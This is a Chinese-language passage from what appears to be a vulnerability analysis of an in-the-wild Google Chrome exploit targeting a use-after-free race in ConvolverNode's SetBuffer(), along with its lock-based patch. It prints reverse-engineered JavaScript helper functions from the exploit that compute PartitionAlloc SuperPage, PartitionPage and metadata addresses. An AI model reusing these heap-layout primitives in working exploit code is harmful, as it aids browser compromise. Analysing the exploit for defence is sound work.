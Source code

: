 如你所见，当ConvolverNode中音频缓冲区被设为null，且Reverb对象里已经有一个活跃的缓冲区时，SetBuffer()函数可能破坏reverb_和shared_buffer_对象。

```
class MODULES_EXPORT ConvolverHandler final : public AudioHandler `{`
...
  std::unique_ptr&lt;Reverb&gt; reverb_;
  std::unique_ptr&lt;SharedAudioBuffer&gt; shared_buffer_;
...
```

这些对象可能还在被Render线程使用，因为代码中未在两线程间进行应有的同步。补丁在缓冲区被置null之前加上了锁（图形锁和进程锁）。

利用代码被混淆了，但我们还是成功进行了逆向，揭示其中所有小细节。查看代码时，我们看出漏洞利用的作者对Google Chrome组件（尤其是[PartitionAlloc](https://github.com/scrapy/base-chromium/blob/master/allocator/partition_allocator/PartitionAlloc.md)内存分配器）的内部知识非常了解，从下面的逆向代码片段中可以清楚地看出这一点。这些函数在漏洞利用程序中用于从分配器的内部结构中检索有用的信息，包括：SuperPage地址、通过SuperPage内部索引获取的PartitionPage地址、使用的PartitionPage的索引以及PartitionPage元数据的地址。所有常量均来自[partition_alloc_constants.h](https://chromium.googlesource.com/chromium/src/+/master/base/allocator/partition_allocator/partition_alloc_constants.h)：

```
function getSuperPageBase(addr) `{`
    let superPageOffsetMask = (BigInt(1) &lt;&lt; BigInt(21)) - BigInt(1);
    let superPageBaseMask = ~superPageOffsetMask;
    let superPageBase = addr &amp; superPageBaseMask;
    return superPageBase;
`}`

function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) `{`
    let superPageBase = getSuperPageBase(addr);
    let partitionPageBase = partitionPageIndex &lt;&lt; BigInt(14);
    let finalAddr = superPageBase + partitionPageBase;
    return finalAddr;
`}`

function getPartitionPageIndex(addr) `{`
    let superPageOffsetMask = (BigInt(1) &lt;&lt; BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr &amp; superPageOffsetMask) &gt;&gt; BigInt(14);
    return partitionPageIndex;
`}`

function getMetadataAreaBaseFromPartitionSuperPage(addr) `{`
    let superPageBase = getSuperPageBase(addr);
    let systemPageSize = BigInt(0x1000);
    return superPageBase + systemPageSize;
`}`

function getPartitionPageMetadataArea(addr) `{`
    let superPageOffsetMask = (BigInt(1) &lt;&lt; BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr &amp; superPageOffsetMask) &gt;&gt; BigInt(14);
    let pageMetadataSize = BigInt(0x20);
    let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize;
    return partitionPageMetadataPtr;
`}`
```
